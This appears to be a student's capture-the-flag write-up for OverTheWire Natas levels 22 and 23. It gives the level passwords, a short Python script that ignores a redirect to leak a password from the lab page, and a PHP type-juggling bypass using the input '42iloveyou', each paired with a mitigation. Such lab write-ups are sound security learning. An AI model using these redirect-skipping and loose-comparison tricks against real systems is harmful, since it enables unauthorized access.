 
---
### Natas 22

#### Credentials
Password: D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE

#### How you passed the challenge
1) I looked in the code and saw that the page will display the password as long as ```revelio``` is in the GET request
2) To prevent the page from redirecting before I can get the password, I set ```allow_redirects=False``` to get the password
```natas22.py```
```py
import requests

auth = ('natas22', 'chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ')

req = requests.get(
    "http://natas22.natas.labs.overthewire.org/index.php?revelio", auth=auth, allow_redirects=False)

results = req.text.split()
print(results[results.index("Password:") + 1])
```

#### What sins are evidenced in this challenge
Sin #12

#### How could those sins be mitigated
Don't rely on redirection to hide sensitive information


---
### Natas 23

#### Credentials
Password: OsRmXFguozKpTZZ5X14zNO43379LZveg

#### How you passed the challenge
1) Looked at the source code and saw that the only requirements were that the password contain the string ```iloveyou``` and be 10 characters or more
2) I used ```42iloveyou``` due to the fact that PHP ignores all characters other than "e", "E", or ".", so it looks at the number at the front but ignores the rest of the characters, so it sees the string "iloveyou" and the number "42" that is greater than 10 and gives the password

#### What sins are evidenced in this challenge
Sin #12

#### How could those sins be mitigated
Be careful about implicit conversions 
Don't expose authentication schemes
